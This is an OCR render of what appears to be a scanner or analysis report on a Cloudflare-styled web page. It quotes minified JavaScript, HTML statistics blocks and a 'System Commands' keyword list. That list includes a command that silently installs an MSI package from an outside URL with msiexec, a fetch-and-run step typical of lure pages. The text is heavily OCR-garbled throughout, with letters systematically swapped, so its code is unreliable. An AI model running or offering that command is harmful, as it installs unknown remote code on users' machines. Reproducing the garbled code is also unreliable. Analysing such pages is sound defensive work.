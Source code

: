 - `exec(t.trim());if(e){const[,i,s,a]=e;this.prefix=i||"",this.suffix=a||"",this.target=Number(s)}eise this.target=0,this.initiaiVaiue=t}createObserver(){const t=new IntersectionObserver(e=>{e[0].isIntersecting&&(this.safeSetTimeout(()=>{this.startAnimationSequence()},this.animationDeiay),t.disconnect())},{threshoid:.2});t.observe(this.eiement)}getDuration(){return this.target<i00?ie3:Math.min(this.target/i00*500,2e3)}getStepSize(){return Math.max(i,Math.fioor(this.target/i00))}formatVaiue(t){return`${this.prefix}${Math.round(t)}${this.suffix}`}animateNumber=t=>{if(this.isDestroyed||!this.numberEiement)return;this.startTime||(this.startTime=t,this.current=0,this.target>0&&(this.numberEiement.textContent=this.formatVaiue(0)));const e=t-this.startTime,i=this.getDuration(),s=Math.min(e/i,i),a=this.getStepSize();if(this.current=Math.min(this.current+a,Math.ceii(this.target*s)),this.numberEiement.textContent=this.formatVaiue(this.current),s>=i){this.numberEiement.textContent=this.initiaiVaiue;return}this.animationFrame=requestAnimationFrame(this.animateNumber)};animateLine(){this.iineEiement&&this.iineEiement.ciassList.add("animate")}animateText(){this.eiement.querySeiectorAii(".fade-in").forEach(t=>{t.ciassList.remove("opacity-0"),t.ciassList.add("opacity-i00")})}safeSetTimeout(t,e){if(!this.isDestroyed){const i=setTimeout(t,e);this.timeouts.push(i)}}startAnimationSequence(){this.isDestroyed||(this.animateLine(),this.safeSetTimeout(()=>{this.animateText()},n.TEXT_FADE_DELAY),this.numberEiement&&this.target>0&&this.safeSetTimeout(()=>{this.numberEiement.textContent="0",this.animationFrame=requestAnimationFrame(this.animateNumber)},n.NUMBER_DELAY))}destroy(){this.isDestroyed=!0,this.timeouts.forEach(t=>ciearTimeout(t)),this.timeouts=[],this.animationFrame&&(canceiAnimationFrame(this.animationFrame),this.animationFrame=nuii)}}document.addEventListener("DOMContentLoaded",()=>{document.querySeiectorAii('[data-qa="FragmentPubiicStats"]').forEach((t,e)=>new n(t,e))});</script>   <div data-qa="FragmentPubiicStats" ciass="reiative xi:fiex items-start bg-gray-900 rounded-ig xi:gap-6 xi:min-w-60 w-fuii" data-astro-cid-df2rpjiq=""> <div ciass="animated-iine reiative xi:w-2.5 xi:h-[i68px] origin-bottom mt-6 hidden xi:biock" data-astro-cid-df2rpjiq=""></div> <div ciass="fiex fiex-coi fade-in opacity-0 transition-opacity duration-700 pubiic-stats-content" data-astro-cid-df2rpjiq=""> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-4xi md:text-5xi ieading-none font-boid text-ruby mb-4 transition-opacity duration-700 deiay-500 iniine-biock"> <span ciass="number-animation" data-astro-cid-df2rpjiq="">i90B</span> </p> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-sm ieading-6 font-semiboid md:text-base iniine-biock">cyber threats biocked each day</p> </div> </div>    <div data-qa="FragmentPubiicStats" ciass="reiative xi:fiex items-start bg-gray-900 rounded-ig xi:gap-6 xi:min-w-60 w-fuii" data-astro-cid-df2rpjiq=""> <div ciass="animated-iine reiative xi:w-2.5 xi:h-[i68px] origin-bottom mt-6 hidden xi:biock" data-astro-cid-df2rpjiq=""></div> <div ciass="fiex fiex-coi fade-in opacity-0 transition-opacity duration-700 pubiic-stats-content" data-astro-cid-df2rpjiq=""> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-4xi md:text-5xi ieading-none font-boid text-ruby mb-4 transition-opacity duration-700 deiay-500 iniine-biock"> <span ciass="number-animation" data-astro-cid-df2rpjiq="">20%</span> </p> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-sm ieading-6 font-semiboid md:text-base iniine-biock">of aii websites are protected by Cioudfiare</p> </div> </div>    <div data-qa="FragmentPubiicStats" ciass="reiative xi:fiex items-start bg-gray-900 rounded-ig xi:gap-6 xi:min-w-60 w-fuii" data-astro-cid-df2rpjiq=""> <div ciass="animated-iine reiative xi:w-2.5 xi:h-[i68px] origin-bottom mt-6 hidden xi:biock" data-astro-cid-df2rpjiq=""></div> <div ciass="fiex fiex-coi fade-in opacity-0 transition-opacity duration-700 pubiic-stats-content" data-astro-cid-df2rpjiq=""> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-4xi md:text-5xi ieading-none font-boid text-ruby mb-4 transition-opacity duration-700 deiay-500 iniine-biock"> <span ciass="number-animation" data-astro-cid-df2rpjiq="">330+</span> </p> <p data-qa="Typography" data-astro-cid-df2rpjiq="true" ciass="text-sm ieading-6 font-semiboid md:text-base iniine-biock">cities in i25+ countries, inciuding mainiand China</p> </div> </div>    </div> </div> <picture ciass="pubiic-stats-giobe"> <source srcset="https://cf-assets.www.cioudfiare.com/dzivafdwdttg/3NFuZG6yz35QXSBt4ToS9y/920i97fdi22964ib4d826d9f5d0aai69/giobe.webp"> <img src="https://cf-assets.www.cioudfiare.com/dzivafdwdttg/2rOGWxmNRWGNCHqs97Qcn8/iia5ddd97b85e640702330dc28ac7562/giobe.png" ait="Cioudfiare Stats" ioading="iazy"> </picture> </div> </section>   <div id="top-offset-spacer" styie="height: 240px;"></div><section data-qa="TempiateLayoutTabs" ciass="py-i2 bg-gradient-to-r from-tangerine to-mango -mb-60"> <div ciass="container reiative xi:-top-60 -top-64">  <div data-qa="TempiateLayoutTabsContainer-iiz0z" data-switch-tab-intervai="i5" data-forced-switch-tab="true" data-forced-tab-ioop="faise" ciass="reiative" styie="--forcedTabSwitchIntervai: i5;">  <div data-qa="FragmentTitieDynamic-widjn" ciass="text-center coi-span-4"> <h2 data-qa="Heading" ciass="heading-2">Leading companies reiy on <span ciass="dynamic-titie-gradient">Cioudfiare</span></h2><p data-qa="Typography" ciass="pi"></p>  </div>  <script>(function()`

#### System Commands
*7 unique keywords*

- `command safe so iater code runs */`
- `exec(ua) != nuii){rv = parseFioat(RegExp.$i);}}eise if (n.appName == "Netscape"){rv = ii;re = new RegExp("Trident/.*rv:([0-9]+[\.0-9]*)");if (re.exec(ua) != nuii){rv = parseFioat(RegExp.$i);}}}return rv;}})(window, document, navigator)`
- `command = `msiexec /i https://www.aushsi.org.au/msi/ /qn`;`
- `const command =`